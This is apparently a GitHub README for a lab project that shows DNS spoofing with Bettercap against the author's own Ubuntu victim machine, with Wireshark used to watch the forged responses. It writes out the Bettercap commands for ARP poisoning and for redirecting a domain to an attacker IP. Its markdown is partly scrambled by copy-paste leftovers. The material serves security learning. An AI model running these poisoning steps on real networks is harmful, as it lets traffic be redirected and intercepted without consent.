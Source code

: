 # DNS Spoofing with Bettercap and Wireshark

## Project Overview
This project demonstrates DNS spoofing using Bettercap on Kali Linux and monitoring the traffic with Wireshark. The goal is to intercept and modify DNS responses, redirecting traffic to a different IP address.

## Tools Used
- **Bettercap**: A powerful tool for network attacks like ARP poisoning and DNS spoofing.
- **Wireshark**: A network protocol analyzer to capture and monitor network traffic.
- **Kali Linux**: A penetration testing and security auditing Linux distribution.

## Prerequisites
- Kali Linux (installed with Bettercap and Wireshark)
- Ubuntu machine (as a victim machine)
- Network setup with both machines connected to the same network

## Step-by-Step Guide

### 1. Setting up Bettercap for DNS Spoofing

- Launch Bettercap in a terminal:
  ```bash
  sudo bettercap -iface eth0
# dns-spoofing-with-wireshark

Demonstrating DNS spoofing using Bettercap and monitoring with Wireshark
Enable ARP spoofing and DNS spoofing:
arp.spoof on
set dns.spoof.domains example.com
set dns.spoof.address 172.18.245.18
dns.spoof on
### 2. Setting up Wireshark to Capture DNS Traffic

- Open a second terminal and launch Wireshark
- Select the appropriate network interface (e.g., eth0 or wlan0).
- Apply the filter dns to capture only DNS packets.
### 3. Pinging example.com from the Victim Machine

- On your Ubuntu victim machine, ping the domain:

bash
Copy
Edit
ping example.com
-Observe in Wireshark how the DNS query for example.com resolves to the IP address of your Kali machine (DNS spoofing in action).
### 4. Verifying the Attack
In Wireshark, look for DNS responses and verify that example.com resolves to the spoofed IP address.
### ## Screenshots

### Bettercap running
![Bettercap Setup](./screenshots/bettercap-setup.png)

### Wireshark DNS spoof capture
![Wireshark DNS Spoof](./screenshots/wireshark-capture.png)

### 5. Conclusion
This demonstrates how DNS spoofing can redirect traffic to an attacker-controlled IP. Wireshark helps visualize the traffic, making it easier to undersatnd teh attack

